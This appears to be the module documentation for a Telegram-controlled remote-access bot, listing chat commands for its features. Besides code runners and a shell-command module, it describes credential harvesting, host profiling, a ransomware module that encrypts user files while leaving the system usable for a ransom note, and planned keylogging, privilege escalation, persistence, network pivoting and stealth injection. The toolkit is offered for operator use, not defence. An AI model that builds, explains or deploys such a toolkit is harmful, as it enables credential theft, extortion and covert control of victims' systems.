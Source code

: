 # Modules

This is the documentation of the included by default modules. You can rule your own if you know how to code in any of the supported languages. 
    
  
```bash
Blocks like this represents what you would usually write on Telegram chat
```

### login
Login using the bot password in the password.txt file allowing you to run privileged commands/modules  
  
WORKING  
  
```bash
/login thisismypassword
```

### backup
Backup the selected path allowing you to chose between different levels of compression, password encryption. Gives you a link to the uploaded files  
  
Not Working/In Current Development  

```bash
/backup /home/documents/ 11  
```


### cpp
Run C++ code and return the output to Telegram  
  
Uses system installed g++ command  

WORKING  

```bash
/cpp #include <iostream>

int main() {
  std::cout << "Hello!";
  return 0;
}
```
  
### dumpNetwork
Generates a PCAP network traffic capture and uploads it to Telegram  
  
Not Developed yet  

```bash
/dumpNetwork
```
  
### findCredentials
Find multiple files that are holding sensitive information, creates a JSON and returns it to Telegram  
  
WORKING  

```bash
/findCredentials
```


### getClientInfo
Gathers information about the system. Public IP address, operative system version, kernel version, hardware, number of packages installed, etc. Returns the information to Telegram  
  
WORKING

```bash
/getClientInfo
```

### go
Run GoLang code and returns the output to Telegram  
  
Uses system installed Go command  
  
WORKING

```bash
/go package main
import "fmt"
func main() {
  fmt.Println("Hello!")
}
```

### help
Returns information about available modules to Telegram  
  
WORKING  

```bash
/help
```
  
### js
Run Javascript code and return the output to Telegram  
  
Uses system installed node command. It's not the same process as the Telegram bot  
  
WORKING

```bash
/js console.log(new Date());
```

### keylogger
Captures keyboard keys and returns them to telegram after selected number of keys are captured  
  
Not Developed Yet  

```bash
/keylogger 1000
```
  
### lua
Run Lua code and return the output to Telegram  
  
Uses system installed lua command  
  
WORKING  

```bash
/lua print("Hello")
```
  
### pe
Escalate privileges to root using a known exploit, or if there isn't an available vulnerability for the system, assist you on performing an advanced privilege escalation using social engineering (for example infecting shared binaries and waiting the root users starts a shell to get privileges)  
  
Not Developed Yet  

```bash
/pe
```
  
### persistence  
Get persistence on the system to make sure the bot keeps running even if removed, dependencies are removed or the process is killed  
  
Not Developed Yet  

```bash
/persistence
```

### pivot  
Try to propagate the bot to other systems, media storage, external devices or network devices  
  
Not Developed Yet

```bash
/pivot
```

### python
Run Python code and return the output to Telegram  
  
Uses system installed python command  
  
WORKING

```bash
/python print(f"""Hello!
  How
    Are
      You?
""")
```

### ransomware
Encrypts all the files under indicated path, using a key derivation from your key and indicated compression strength. Some folders are ignored by default, so you don't break the system, the bot continues to work and the user can use the system to read the ransomware letter you send  
  
Brotli compression is used to improve times, reduce size and increasse security  
Known cryptography (aes 256 + camellia 256 + aes256, cbc with different IV) is used by default (OpenSSL implentations)  
Know key derivations (base64, sha512) are used by default  
Custom Xor encryption is added too (2 layers, using different key derivations) just as an extra. (I think i will help in case know vulnerabilities in OpenSSL arrives some day or to dificult a bit quantum computers job in cracking)  


```bash
/ransomware e password /home 1
```

```bash
/ransomware d password /home 1
```

### run
Run commands in the system (in a default subshell) and return output to Telegram

WORKING

```bash
/run ls -la
```

### scanNetwork
Scan the local networks to find available services and devices and return result to Telegram  
  
Not Developed Yet  
  
```bash
/scanNetwork
```

### sendMail
Send an email using a free service  
  
Not Developed Yet

```bash
/sendMail from@freeprovider.tld myPassword Hello Hey How are you doing? destination@example.com
```
  
### stealth
Remove any traces of infection, injects itself into another procress memory, goes sleep for the time indicated, run the bot without dependecies, change the footprint  
  
Not Developed Yet  

```bash
/stealth 21h
```
